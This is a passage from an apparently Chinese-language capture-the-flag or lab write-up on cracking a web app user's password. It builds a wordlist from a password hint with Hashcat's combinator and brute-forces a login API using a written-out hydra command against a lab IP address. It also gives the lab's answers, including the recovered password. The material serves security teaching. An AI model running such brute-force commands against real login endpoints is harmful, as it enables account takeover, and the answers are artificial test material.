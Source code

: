 **下一步**

现在我们有了用户名，我们需要一个密码。因为密码是用 bcrypt 散列的，并且需要相当长的时间来验证，所以用像 RockYou 这样的大型单词表进行暴力破解是不可行的。
还好这个 web app 有密码提示！

使用我们在上一步中找到的用户名，我们可以检索密码提示。根据这个密码提示，我们可以创建一个单词列表，并(更)有效地破解用户的密码。

**密码提示:** 我喜欢的颜色和我喜欢的数字

这很简单，我们需要做的就是创建两个单词的列表，一个用于颜色，另一个用于数字，然后用一个叫做 [Hashcat Util 的组合器](https://hashcat.net/wiki/doku.php?id=hashcat_utils)的工具将它们组合在一起

现在，我们将下载 2 个单词列表，并将它们组合在一起，然后使用 hydra 强行登录 API

```
./combinator.bin colors.txt numbers.txt > wordlist.txt
```

现在我们要建立九头蛇指挥部

```
hydra -l james -P wordlist.txt 10.10.156.130 http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"
```

这可能看起来势不可挡，但不要担心，我们会分析它

**攻击 API:**

我们之前捕获的 HTTP POST 请求告诉了我们足够多的关于 API 的信息，我们可以使用 Hydra 来攻击它。
该 API 实际上被设计成接受表单数据或 JSON 数据。前端将 JSON 数据作为 POST 请求发送，所以我们将使用这个。Hydra 允许利用 HTTP-POST 模块攻击 HTTP POST 请求。要使用它，我们需要:

```
Request Body — JSON
{“username”:”admin”,”password”:”admin”}
Request Path -
/api/user/login
Error message for incorrect logins -
“Invalid Username Or Password”
```

该命令是(用尖括号替换部分，您将需要转义特殊字符):

```
hydra -l <username> -P <wordlist> 192.168.2.62 http-post-form <path>:<body>:<fail_message>
```

*   你的单词表里有多少个密码？

```
wc -l wordlist.txt180
```

*   用户的密码是什么？

```
blue7
```

现在我们瞧；从我们得到的凭证开始
